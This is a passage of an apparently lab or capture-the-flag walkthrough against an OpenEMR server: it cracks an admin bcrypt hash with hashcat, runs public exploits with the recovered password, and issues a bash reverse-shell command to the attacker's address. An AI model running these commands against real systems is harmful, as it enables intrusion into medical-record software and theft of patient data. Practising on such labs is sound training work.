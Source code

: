 ![image.png](image%2021.png)

 We can idenfitfy hash type using [hash type identifier](https://hashes.com/en/tools/hash_identifier)

![image.png](image%2022.png)

```bash
hashcat -m 3200 admin.hash /usr/share/wordlists/rockyou.txt
```

![image.png](image%2023.png)

Now as we have credentials for admin, we can use openemr exploit to get RCE.

```bash
ruby 49486.rb auto --root-url http://192.168.122.145/openemr --user admin --password thedoctor --lhost 192.168.45.163 --lport 80
```

![image.png](image%2024.png)

It looks good, but I don’t receive a shell, I am gonna access the provided URL.

![image.png](image%2025.png)

It says not found.

![image.png](image%2026.png)

![image.png](image%2027.png)

I am gonna try `5.0.1.3` too.

```bash
searchsploit -m 45161
```

```bash
python 45161.py http://192.168.122.145/openemr -u admin -p thedoctor -c id
```

It seems it worked, but output is now shown in the terminal.

![image.png](image%2028.png)

I am gonna try to run reverse shell.

```bash
python 45161.py http://192.168.122.145/openemr -u admin -p thedoctor -c 'bash -i >& /dev/tcp/192.168.45.163/80 0>&1'
```

![image.png](image%2029.png)

![image.png](image%2030.png)
